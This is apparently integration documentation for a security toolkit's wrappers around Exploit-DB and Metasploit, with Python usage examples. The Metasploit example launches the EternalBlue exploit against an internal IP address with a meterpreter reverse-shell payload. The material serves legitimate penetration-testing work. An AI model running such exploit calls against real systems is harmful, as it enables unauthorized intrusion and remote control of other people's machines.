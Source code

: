 # Exploit Databases and Vulnerability Scanners Integration

This document provides information about the exploit databases and vulnerability scanners integrated into our security system.

## Integrated Exploit Databases

### 1. Exploit-DB
- **Description**: The largest database of public exploits maintained by Offensive Security
- **Features**: 
  - Comprehensive exploit database
  - Search by CVE, vulnerability type, or platform
  - Regular updates with new exploits
  - Access via searchsploit command-line tool
- **Usage Example**:
  ```python
  from security_tools_integration import security_tools_manager
  
  # Get Exploit-DB tool
  exploitdb = security_tools_manager.get_tool("ExploitDB")
  
  # Search for a specific CVE
  results = exploitdb.search_cve("CVE-2021-44228")
  print(f"Found {len(results)} exploits")
  
  # Get a specific exploit
  exploit = exploitdb.get_exploit("12345")
  print(exploit["content"])
  ```

### 2. Metasploit Framework
- **Description**: A comprehensive exploitation framework with an extensive database of exploits
- **Features**:
  - Exploit development and testing platform
  - Large collection of ready-to-use exploits
  - Vulnerability verification capabilities
  - Post-exploitation modules
- **Usage Example**:
  ```python
  from security_tools_integration import security_tools_manager
  
  # Get Metasploit tool
  metasploit = security_tools_manager.get_tool("MetasploitExploitDB")
  
  # Search for exploits for a specific CVE
  results = metasploit.search_cve("CVE-2021-44228")
  print(f"Found {results['count']} exploits")
  
  # Run an exploit against a target
  metasploit.run_exploit("exploit/windows/smb/ms17_010_eternalblue", 
                        target_host="192.168.1.100", 
                        payload="windows/x64/meterpreter/reverse_tcp")
  ```
